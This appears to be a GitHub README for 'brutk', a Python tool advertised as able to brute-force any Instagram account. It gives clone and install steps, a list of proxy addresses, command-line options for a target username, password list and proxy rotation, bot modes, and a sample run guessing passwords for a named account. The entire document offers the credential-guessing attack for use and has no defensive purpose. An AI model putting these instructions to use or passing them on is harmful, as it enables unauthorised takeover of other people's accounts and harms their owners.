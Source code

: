 # brutk 

This program will brute force any Instagram account 
# Requirements 

Python v3.9


proxy list 

# Installation 

git clone https://github.com/Khalidhusain786/brutk.git

cd brutk 


pip install pipenv  
 
 
pipenv --python 3.9 


pipenv install 



# Upload Proxy 
  
  3.238.111.248:80

206.189.59.192:8118

165.22.81.30:34100

176.248.120.70:3128

191.242.178.209:3128

180.92.194.235:80  


To upload a list of proxies a similar syntax must be followed.  




python instagram.py -px <path to proxy list>  


 

  
  # Stats 
 
 This gives an insight into the health of the proxies in the database.
 
 
 
 
 python instagram.py --stats 
 
 
# Help

usage:  instagram.py [-h] [-u USERNAME] [-p PASSLIST] [-px PROXYLIST] [--prune PRUNE] [--stats] [-nc] [-m MODE]

optional arguments:
  -h, --help            show this help message and exit 
  
  -u USERNAME, --username USERNAME
                        email or username 
                        
  -p PASSLIST, --passlist PASSLIST 
                        password list 
                        
  -px PROXYLIST, --proxylist PROXYLIST
                        proxy list 
                        
  --prune PRUNE         prune the database 
  
  --stats               get statistics of the proxies 
  
  -nc, --no-color       disable colors 
  
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots 
  
 
 
 
  # Prune 
 
 
 This allows the able to get rid of proxies with a score below a given score.

It is recommended that you run the --stats and prune the database of proxies 
 
 
 

 python instagram.py --prune 0.05

 
 
 
Pruning is not a requirement because the

the system will automatically learn which proxies perform poorly and stop using them.
 
 
 # Usage 
 
 python instagram.py -u <username> -p <passlist>

  
# Run 
 
Wordlist: gali.txt

[-] Username: galikachora
 

[-] Password: 580
 

[-] Complete: 65.51%

[-] Attempts: 350

[-] Browsers: 280

[-] Exists: True
  




